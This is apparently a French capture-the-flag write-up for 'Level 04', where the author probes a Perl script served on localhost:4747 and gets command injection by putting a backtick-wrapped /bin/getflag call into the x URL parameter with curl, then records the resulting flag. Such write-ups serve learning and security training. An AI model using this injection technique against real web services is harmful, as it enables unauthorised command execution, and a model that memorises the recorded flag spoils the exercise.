 # Level 04

## Recherche

il y a un fichier perl, on pense qu'il va falloir modifier ses acces et que le fichier affiche dans une page html le flag

je pense qu'il va falloir trouver une technique pour qu'il aille chercher getflag pendant l'execution

il y a le param dans le fichier qui me rend perplexe, on ne voit pas ce qu'il faut mettre. la version html a utiliser ? le chemin de getflag ? 

------

test de la command curl pour executer le programme 

__curl -v localhost:4747__ specifie que la commande est valide, elle recoit et renvoie quelque chose

__curl localhost:4747/?x=param__ affiche param, donc le x correspond au $y. 
on peut donc trouver une solution pour y inserer autre chose

__?x="/bin/getflag"__ ne fonctionne pas

__echo `ls`__ execute ls et non pas affiche ls

__curl localhost:4747/?x=`/bin/getflag`__ ne fonctionne pas non plus

__curl 'localhost:4747/?x=`/bin/getflag`'__ fonctionne ! le \`xxx\` permet de faire comprendre que c'est une entite en soit, et le 'xxx'  permet de dire qu'il y a des char speciaux a prendre en compte

## Flag : ne2searoevaevoem4ov4ar8ap


# Sitographie

